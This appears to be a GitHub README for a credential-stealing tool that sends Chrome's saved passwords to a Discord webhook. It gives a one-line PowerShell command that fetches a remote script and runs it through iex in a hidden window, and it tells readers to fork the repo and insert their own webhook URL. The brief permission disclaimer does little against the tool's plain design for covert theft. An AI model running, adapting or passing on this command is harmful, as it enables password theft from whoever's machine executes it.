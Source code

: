 Simple Script to Export Chrome Passwords to Discord Webhook
### USE THIS SCRIPT AT YOUR OWN RISK, I AM NOT RESPONSIBLE FOR HOW YOU MAY CHOOSE TO USE IT. ONLY USE IT ON MACHINES YOU HAVE PERMISSION TO TEST ON

To Use for Yourself, Fork Repo, edit cp.ps1 file to have your webhook URL, and edit command to include your cp.ps1 raw URL

Example CMD to Run:

```
powershell -Command "Start-Process powershell -ArgumentList '-Command & {iwr -Uri \"https://raw.githubusercontent.com/ishan211/Chrome-Discord-WH/main/cp.ps1\" -UseBasicParsing | iex}' -WindowStyle Hidden"
```
